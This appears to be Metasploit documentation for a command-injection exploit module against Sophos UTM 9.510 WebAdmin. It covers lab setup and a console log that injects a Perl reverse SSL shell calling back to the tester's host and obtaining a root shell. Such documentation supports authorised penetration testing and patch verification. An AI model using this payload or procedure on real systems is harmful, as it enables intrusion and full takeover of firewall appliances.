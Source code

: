## Vulnerable Application

### Setup

Follow the [setup guide] from Sophos, in particular the [system requirements] and [installation instructions]. You can stop after that.

1. Boot the ISO
1. Follow the on-screen prompts
1. Reboot
1. Hax

Tested against [`asg-9.510-5.1.iso`](#scenarios) (unpatched) and `asg-9.511-2.1.iso` (patched).

[setup guide]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/Installation.htm
[system requirements]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/InstallationSystemRequirements.htm
[installation instructions]: https://docs.sophos.com/nsg/sophos-utm/utm/9.707/help/en-us/Content/utm/utmAdminGuide/InstallationInstructions.htm

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### Sophos UTM 9.510

```
msf6 > use exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > options

Module options (exploit/linux/http/sophos_utm_webadmin_sid_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      4444             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set rhosts 172.16.57.254
rhosts => 172.16.57.254
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > set verbose true
verbose => true
msf6 exploit(linux/http/sophos_utm_webadmin_sid_cmd_injection) > run

[+] perl -e 'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"172.16.57.1:443",SSL_verify_mode=>0);while(sysread($c,$i,8192)){syswrite($c,`$i`);}'
[-] Handler failed to bind to 172.16.57.1:443
[*] Started reverse SSL handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Injecting command: sleep 5
[*] Elapsed time: 5.107014999957755 seconds
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing cmd/unix/reverse_perl_ssl (Unix Command)
[*] Injecting command: perl -e 'use IO::Socket::SSL;$p=fork;exit,if($p);$c=IO::Socket::SSL->new(PeerAddr=>"172.16.57.1:443",SSL_verify_mode=>0);while(sysread($c,$i,8192)){syswrite($c,`$i`);}'
[*] Command shell session 1 opened (172.16.57.1:443 -> 172.16.57.254:43275 ) at 2021-10-21 12:23:57 -0500

whoami
root
```
